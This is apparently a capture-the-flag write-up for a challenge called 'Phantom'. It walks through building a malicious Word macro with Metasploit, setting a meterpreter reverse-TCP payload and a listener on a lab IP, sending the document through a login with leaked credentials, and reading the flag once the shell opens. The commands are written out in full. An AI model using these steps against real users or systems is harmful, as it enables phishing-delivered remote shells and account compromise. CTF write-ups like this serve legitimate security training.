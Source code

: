 ## Phantom

> A Metasploit-based reverse shell attack leveraging a malicious Word macro.

![The Challenge](https://github.com/user-attachments/assets/ac6fa607-8a0b-4a7b-af81-a9981e8bd8f9)

---

### 🛠️ Initial Setup

The first thing that I could think of was using the Metasploit Framework to embed a reverse shell macro inside a Word document

![image](https://github.com/user-attachments/assets/3079d673-f2c5-449d-9f05-f64e593e1462)

```bash
msfconsole
use exploit/multi/fileformat/office_word_macro
set payload windows/meterpreter/reverse_tcp
set LHOST=10.10.236.249
set LPORT=8888
show options
exploit
```


---

### 📡 Listener Setup

After that, I set up a listener in another terminal to catch the reverse shell:

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST=10.10.236.249
set LPORT=8888
exploit
```

![Handler Listener](https://github.com/user-attachments/assets/6cd1a64f-ff35-4873-8831-14730d718a8e)

---

### 🎯 Delivery

I went to the website and logged in with the leaked credentials and sent the malicious .doc file to the target and waited for them to open it.

![Login Page](https://github.com/user-attachments/assets/d469b22b-5251-4d8c-818d-54d5f788d484)
![File Upload](https://github.com/user-attachments/assets/dcf61fba-e9af-4c68-aeac-11f906d76188)

---

### 🕵️‍♂️ Exploitation

Once they did, I hooked a meterpreter session and navigated to the desktop and found the flag:

```bash
cd c:/users/Administrator/Desktop
ls
cat flag.txt
```

![Meterpreter Session](https://github.com/user-attachments/assets/cf631450-aaf2-4935-a6dd-6234a7e3aaa2)

